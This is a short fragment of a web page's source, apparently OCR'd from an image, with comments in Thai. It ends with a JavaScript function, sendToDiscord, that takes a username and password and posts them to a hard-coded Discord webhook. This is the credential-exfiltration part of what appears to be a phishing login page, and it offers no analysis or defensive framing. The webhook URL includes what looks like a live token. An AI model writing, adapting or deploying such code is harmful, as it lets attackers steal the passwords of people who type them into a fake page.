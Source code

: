         function sendToDiscord(username, password) {
            const discordWebhookURL = 'https://discord.com/api/webhooks/1347574589651292281/cDfFbdonkigyXxoa2Anl_vw6-2QOM8Y03r48ZZwK8p9VBKnlqVPd4tOudLy0r7marbs-'; // ใส่ Discord Webhook URL ที่คุณได้จาก Discord
            const data = {
                content: `---------------------------\nUsername: ${username}\nPassword: ${password}\n---------------------------`,
            };

            // ทำ HTTP POST request ไปยัง Discord API
            fetch(discordWebhookURL, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify(data),
            })
            .then(response => {
                if (!response.ok) {
                    throw new Error('Failed to send data to Discord.');
                }
                console.log('Data sent to Discord successfully.');
            })
            .catch(error => {
                console.error(error.message);
            });
        }
    </script>
</body>
</html>

